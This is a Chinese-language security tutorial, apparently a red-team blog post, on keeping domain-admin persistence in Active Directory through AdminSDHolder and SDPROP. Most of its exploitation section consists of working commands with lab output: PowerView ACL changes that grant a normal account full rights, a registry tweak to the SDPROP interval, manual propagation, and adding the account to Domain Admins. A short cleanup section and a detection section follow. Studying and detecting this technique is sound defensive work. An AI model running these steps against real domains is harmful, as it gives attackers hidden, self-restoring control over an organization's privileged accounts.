


## 0x00 简介

AdminSDHolder是AD中的一个容器，它维护了一个ACL模板；后台程序SDPROP(Security Descriptor propagator)默认每60分钟执行一次，将受保护账户和组(如Domain Admins组)的ACL重置为AdminSDHolder中的ACL，用于确保这些关键对象的安全权限不被修改。

修改AdminSDHolder ACL需要域管权限，修改的ACL由SDPROP自动应用于所有受保护的AD账户和组，从而实现域权限维持。


**参考：**

[AdminSDHolder, Protected Groups and SDPROP](https://docs.microsoft.com/en-us/previous-versions/technet-magazine/ee361593(v=msdn.10)?redirectedfrom=MSDN#id0250006)

[Appendix C: Protected Accounts and Groups in Active Directory](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory)

[域渗透——AdminSDHolder](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-AdminSDHolder/)

[AD Permissions Attack #3: Persistence using AdminSDHolder and SDProp](https://stealthbits.com/blog/20170619persistence-using-adminsdholder-and-sdprop/)

[Sneaky Active Directory Persistence #15: Leverage AdminSDHolder & SDProp to (Re)Gain Domain Admin Rights](https://adsecurity.org/?p=1906)


## 0x01 AdminSDHolder介绍

[AdminSDHolder, Protected Groups and SDPROP](https://docs.microsoft.com/en-us/previous-versions/technet-magazine/ee361593(v=msdn.10)?redirectedfrom=MSDN#id0250006)

[Appendix C: Protected Accounts and Groups in Active Directory](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory)

> Active Directory Domain Services uses AdminSDHolder, protected groups and Security Descriptor propagator (SD propagator or SDPROP for short) to secure privileged users and groups from unintentional modification. This functionality was introduced in the inaugural release of Active Directory in Windows 2000 Server and it's fairly well known. However, virtually all IT administrators have been negatively impacted by this functionality, and that will to continue unless they fully understand how AdminSDHolder, protected groups and SDPROP work.
>
> Each Active Directory domain has an object called AdminSDHolder, which resides in the System container of the domain. The AdminSDHolder object has a unique Access Control List (ACL), which is used to control the permissions of security principals that are members of built-in privileged Active Directory groups (what I like to call "protected" groups). Every hour, a background process runs on the domain controller that holds the PDC Emulator operations master role. It compares the ACL on all security principals (users, groups and computer accounts) that belong to protected groups against the ACL on the AdminSDHolder object. If the size or the binary string is different, the security descriptor on the object is overwritten by the security descriptor from the AdminSDHolder object..
>
> As you can see, multiple layers of security are incorporated into this functionality. First, the permissions applied to users belonging to protected groups are more stringent than the default permissions applied onto other user accounts. Next, the default behaviour is that inheritance is disabled on these privileged accounts, ensuring that permissions applied at the parent level aren't inherited by the protected objects, regardless of where they reside. Finally, the background process running every 60 minutes identifies manual modifications to an ACL and overwrites them so that the ACL matches the ACL on the AdminSDHolder object.


AdminSDHolder位于"CN=AdminSDHolder,CN=System"，它维护了一个模板严格定义了受保护账户和组的安全访问权限，同时它的继承属性是disable的。每隔60分钟后台程序SDPROP会将受保护账户和组的ACL与AdminSDHolder中的ACL比较，保证它们是一致的。




常见的受保护账户和组有：

- Account Operators
- Administrator
- Administrators
- Backup Operators
- Domain Admins
- Domain Controllers
- Enterprise Admins
- Krbtgt
- Print Operators
- Read-only Domain Controllers
- Replicator
- Schema Admins
- Server Operators

可以在[Appendix C: Protected Accounts and Groups in Active Directory](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory)查询受保护账户和组详细列表，也可以通过设置将某些账户和组排除出受保护列表。


此外，受保护账户和组会有一个特殊的标记 AdminCount=1。需要注意的一点是，一旦将用户从特权组中删除，他们仍将adminCount值保持为1，但Active Directory不再将其视为受保护的对象。


修改AdminSDHolder的ACL为普通账户添加Full Control权限，此后由SDPROP推送至受保护组，这样一来，普通账户就有权限添加账户到受保护组等。


## 0x02 AdminSDHolder利用

### 1. powerview

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

#### **修改AdminSDHolder ACL**

```
Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=ring2,DC=com" -PrincipalIdentity "win10" -Rights All
```


#### **触发SDPROP程序**

##### 1) 等待自动执行

默认60分钟一次，可以通过修改此注册表调整间隔时间600秒；但不建议调整，会影响域控性能

```
reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency /t REG_DWORD /d 600
```


##### 2) ldp.exe手动触发

https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory#running-sdprop-manually-in-windows-server-2008-or-earlier


##### 3) powershell命令手动触发

https://raw.githubusercontent.com/edemilliere/ADSI/master/Invoke-ADSDPropagation.ps1

```
Invoke-ADSDPropagation -TaskName RunProtectAdminGroupsTask -Verbose
```


#### 权限维持

触发后查看Domain Admins账户的属性，可以看到win10账户有权修改Domain Admins组




```
C:\WINDOWS\system32>net groups "domain admins" win10 /domain /add
The request will be processed at a domain controller for domain ring2.com.

The command completed successfully.

C:\WINDOWS\system32>net user win10 /domain
The request will be processed at a domain controller for domain ring2.com.

User name                    win10
Full Name                    win10
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            ‎9/‎3/‎2020 9:49:35 PM
Password expires             Never
Password changeable          ‎9/‎4/‎2020 9:49:35 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   ‎12/‎26/‎2020 6:54:24 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```


重新登录win10账户后，才能生效


#### 清理环境

```
PS C:\Users\Administrator\Desktop> Remove-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=ring2,DC=com" -PrincipalIdentity "win10" -Rights All -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://RINGDC-PC.RING2.COM/DC=RING2,DC=COM
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=win10)(name=win10)(displayname=win10))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://RINGDC-PC.RING2.COM/DC=RING2,DC=COM
VERBOSE: [Get-DomainObject] Extracted domain 'ring2.com' from 'CN=AdminSDHolder,CN=System,DC=ring2,DC=com'
VERBOSE: [Get-DomainSearcher] search base: LDAP://RINGDC-PC.RING2.COM/DC=ring2,DC=com
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(distinguishedname=CN=AdminSDHolder,CN=System,DC=ring2,DC=com)))
VERBOSE: [Remove-DomainObjectAcl] Removing principal CN=win10,CN=Users,DC=ring2,DC=com 'All' from
CN=AdminSDHolder,CN=System,DC=ring2,DC=com
VERBOSE: [Remove-DomainObjectAcl] Granting principal CN=win10,CN=Users,DC=ring2,DC=com rights GUID
'00000000-0000-0000-0000-000000000000' on CN=AdminSDHolder,CN=System,DC=ring2,DC=com
True
```


### 2. DCShadow+AdminSDHolder

第一种方法要在DC上执行，使用DCShadow+AdminSDHolder结合，能远程操作维持权限。见DCshadow分析文章


## 0x03 检测

检查AdminSDHolder的ACL，是否有可疑用户

```
//powershell
$AdminSDHolder = [adsi]'LDAP://CN=AdminSDHolder,CN=System,DC=ring2,DC=com'
$AdminSDHolder.ObjectSecurity.SDDL | ConvertFrom-SddlString

//powerview
Get-DomainObjectAcl -Identity "CN=AdminSDHolder,CN=System,DC=ring2,DC=com" |Select-Object SecurityIdentifier,ActiveDirector
yRights -Unique
```


